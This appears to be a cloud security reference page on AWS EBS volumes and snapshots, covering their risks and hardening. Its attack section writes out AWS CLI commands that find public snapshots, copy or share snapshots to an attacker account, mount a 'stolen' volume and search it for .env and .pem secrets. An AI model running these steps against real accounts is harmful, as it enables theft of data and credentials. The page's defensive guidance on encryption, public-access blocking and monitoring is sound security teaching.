

AWS EBS Security
STORAGE
Elastic Block Store (EBS) provides persistent block storage for EC2 instances. Snapshots can contain sensitive data and are often misconfigured with public sharing permissions.

Elastic Block Store (EBS) provides persistent block storage for EC2 instances. Snapshots can contain sensitive data and are often misconfigured with public sharing permissions.
EBS offers multiple volume types: gp3/gp2 (general purpose SSD), io2/io1 (provisioned IOPS SSD), st1 (throughput HDD), and sc1 (cold HDD). Each attached to a single EC2 instance in the same AZ.
Point-in-time backups stored in S3. Can be shared across accounts or made public. Snapshots are incremental but each can restore a complete volume.
EBS snapshots frequently contain sensitive data and are commonly misconfigured with public access. Unencrypted volumes expose data at rest. Snapshot sharing enables cross-account data exfiltration.
aws ec2 describe-volumesaws ec2 describe-snapshots --owner-ids selfaws ec2 describe-snapshots --restorable-by-user-ids allaws ec2 describe-snapshot-attribute \\
--snapshot-id snap-xxx \\
--attribute createVolumePermissionaws ec2 copy-snapshot \\
--source-region us-east-1 \\
--source-snapshot-id snap-target \\
--description "exfil"aws ec2 create-volume \\
--snapshot-id snap-stolen \\
--availability-zone us-east-1aaws ec2 modify-snapshot-attribute \\
--snapshot-id snap-xxx \\
--attribute createVolumePermission \\
--operation-type add \\
--user-ids 123456789012aws ec2 attach-volume \\
--volume-id vol-xxx \\
--instance-id i-attacker \\
--device /dev/sdfsudo mkdir /mnt/stolen
sudo mount /dev/xvdf1 /mnt/stolen
find /mnt/stolen -name "*.env" -o -name "*.pem"aws ec2 modify-snapshot-attribute \\
--snapshot-id snap-xxx \\
--attribute createVolumePermission \\
--operation-type add \\
--group-names allSnapshot Attributes:
CreateVolumePermission:
- Group: all # PUBLIC SNAPSHOT!
Volume: Unencrypted
DeleteOnTermination: false
// Anyone can copy this snapshot and access dataAnyone in AWS can copy this snapshot and access all data
Snapshot Attributes:
CreateVolumePermission:
- UserId: 123456789012 # Specific account only
Volume: Encrypted (KMS CMK)
DeleteOnTermination: true
Tags: {"DataClassification": "Confidential"}Only specific account can access, encrypted with customer key
Encrypt all new EBS volumes automatically with KMS.
aws ec2 enable-ebs-encryption-by-defaultPrevent snapshots from being shared publicly at the account level.
aws ec2 enable-snapshot-block-public-access --state block-all-sharingControl key access and enable rotation for better security.
aws ec2 create-volume --encrypted \\
--kms-key-id alias/my-ebs-keyLog snapshot and volume operations for auditing.
Auto-delete old snapshots to reduce exposure window.
aws dlm create-lifecycle-policy \\
--policy-details '{"PolicyType":"EBS_SNAPSHOT_MANAGEMENT"...}'Alert on unencrypted volumes and public snapshots.
ec2-ebs-encryption-by-default, ec2-snapshot-public-restorable-check